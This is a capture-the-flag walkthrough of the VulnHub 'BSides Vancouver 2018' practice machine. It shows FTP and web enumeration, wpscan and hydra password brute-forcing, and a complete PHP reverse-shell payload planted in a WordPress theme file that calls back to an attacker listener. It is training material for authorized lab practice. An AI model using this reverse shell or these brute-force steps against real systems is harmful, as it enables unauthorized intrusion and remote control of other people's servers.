# BSides Vancouver: 2018 (Workshop)

- **Machine:** BSides Vancouver: 2018 (Workshop)
- **Download:** https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/



---

## Setup

- Import the `.ova` file into VirtualBox.
- Click **Finish**.
- Start the virtual machine.

---

# Network Scanning

## Find the Target IP Address

```bash
nmap -sn 192.168.2.0/24
```



---

## Full Port Scan

Run a comprehensive Nmap scan to enumerate all open ports, services, operating system details, and default NSE scripts.

```bash
nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.172
```



---

## Optional Port Scan

```bash
nmap -v -p- 192.168.2.172
```

```bash
nmap -sC -sV -A 192.168.2.172
```

---

## HTTP Enumeration

This command performs an aggressive scan and uses the `http-enum` NSE script to identify interesting web directories.

```bash
nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.172
```



---

# FTP Enumeration

## Anonymous FTP Login

Connect to the FTP service using anonymous authentication.

```bash
ftp 192.168.2.172
```

---

## Enumerate Files

List the available files.

```bash
ls
```

Navigate to the `public` directory.

```bash
cd public
```

Download the backup file.

```bash
get users.txt.bk
```



---

## Read the Backup File

```bash
cat users.txt.bk
```



### Users Discovered

```text
abatchy
john
mai
anne
doomguy
```

These usernames will be useful during later authentication attempts.

---

# Web Enumeration

Visit the following URLs:

- http://192.168.2.172
- http://192.168.2.172/robots.txt
- http://192.168.2.172/backup_wordpress/

---

## Directory Enumeration

Perform directory brute-forcing against the WordPress backup directory.

```bash
gobuster dir -u http://192.168.2.172/backup_wordpress/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,bak,zip
```



---

## WordPress Login Page

Visit the following endpoint:

- http://192.168.2.172/backup_wordpress/wp-admin/



A WordPress login page is discovered.

---

## WordPress Credential Attack (Lab)

> **Lab note:** The following password attack is performed only against the authorized VulnHub practice machine.

Attempt authentication testing against the `john` account.

```bash
wpscan --url http://192.168.2.172/backup_wordpress/ -U john -P /opt/rockyou.txt
```



---

## WordPress Login

Recovered credentials:

```text
Username : john
Password : enigma
```

Login to the WordPress dashboard using the recovered credentials.



Successful authentication provides administrative access to the WordPress dashboard.

---

# Reverse Shell (Lab)

> **Lab note:** The following steps are intended only for an authorized practice machine such as this VulnHub VM.

After successfully logging into the WordPress dashboard, navigate to:

```text
Appearance → Editor → footer.php
```

---

## Start a Listener

Start a Netcat listener on your attacker machine.

```bash
nc -nlvp 443
```

---

## Upload the Reverse Shell

Replace the contents of `footer.php` with the following PHP reverse shell payload.

```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.2.219';   // CHANGE THIS
$port = 443;             // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

// Daemonise ourself if possible to avoid zombies later

if (function_exists('pcntl_fork')) {
    $pid = pcntl_fork();

    if ($pid == -1) {
        printit("ERROR: Can't fork");
        exit(1);
    }

    if ($pid) {
        exit(0);
    }

    if (posix_setsid() == -1) {
        printit("Error: Can't setsid()");
        exit(1);
    }

    $daemon = 1;
} else {
    printit("WARNING: Failed to daemonise. This is common and not fatal.");
}

chdir("/");
umask(0);

// Open reverse connection

$sock = fsockopen($ip, $port, $errno, $errstr, 30);

if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
}

$descriptorspec = array(
    0 => array("pipe", "r"),
    1 => array("pipe", "w"),
    2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {

    if (feof($sock)) {
        printit("ERROR: Shell connection terminated");
        break;
    }

    if (feof($pipes[1])) {
        printit("ERROR: Shell process terminated");
        break;
    }

    $read_a = array($sock, $pipes[1], $pipes[2]);
    stream_select($read_a, $write_a, $error_a, null);

    if (in_array($sock, $read_a)) {
        $input = fread($sock, $chunk_size);
        fwrite($pipes[0], $input);
    }

    if (in_array($pipes[1], $read_a)) {
        $input = fread($pipes[1], $chunk_size);
        fwrite($sock, $input);
    }

    if (in_array($pipes[2], $read_a)) {
        $input = fread($pipes[2], $chunk_size);
        fwrite($sock, $input);
    }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);

proc_close($process);

function printit($string)
{
    global $daemon;

    if (!$daemon) {
        print "$string\n";
    }
}

?>
```



---

## Trigger the Reverse Shell

Visit the following URL to execute the modified PHP file.

```text
http://192.168.2.172/backup_wordpress/
```

A reverse shell is successfully established.



---

# SSH Access

## Enumerate Discovered Users

The following usernames were identified during the assessment.

```text
abatchy
john
mai
anne
doomguy
```

Attempt SSH authentication using each discovered username.

Only the **anne** account allows password authentication.



---

## SSH Password Attack (Lab)

> **Lab note:** Perform password attacks only against systems you own or are explicitly authorized to test.

Run Hydra against the `anne` account.

```bash
hydra -l anne -P /opt/rockyou.txt ssh://192.168.2.172
```



---

## Recovered Credentials

```text
Username : anne
Password : princess
```

---

## SSH Login

Authenticate using the recovered credentials.

```bash
ssh anne@192.168.2.172
```



Successful SSH access is obtained.

---

# Impact

- Anonymous FTP exposed sensitive backup files.
- User enumeration through FTP backup files.
- Weak WordPress credentials resulted in administrative access.
- Administrative access enabled Remote Code Execution (RCE).
- Weak SSH credentials provided authenticated shell access.
- Multiple attack paths ultimately led to complete system compromise.

---

# Key Learning

- Always enumerate FTP services, especially anonymous access.
- Backup files frequently disclose valuable information.
- Weak WordPress credentials can lead to administrative compromise.
- WordPress Theme Editor can be abused to achieve remote code execution.
- Recovered credentials should always be tested across multiple services.
- Weak SSH passwords significantly increase the attack surface.

---

# Summary

The assessment began by enumerating an anonymous FTP service, which exposed a backup file containing valid usernames. Web enumeration identified a WordPress backup installation where weak credentials allowed administrative access. After authenticating to the dashboard, a PHP reverse shell was uploaded through the Theme Editor to obtain remote code execution. Finally, SSH password testing against the discovered users revealed valid credentials for the `anne` account, providing authenticated shell access to the target machine.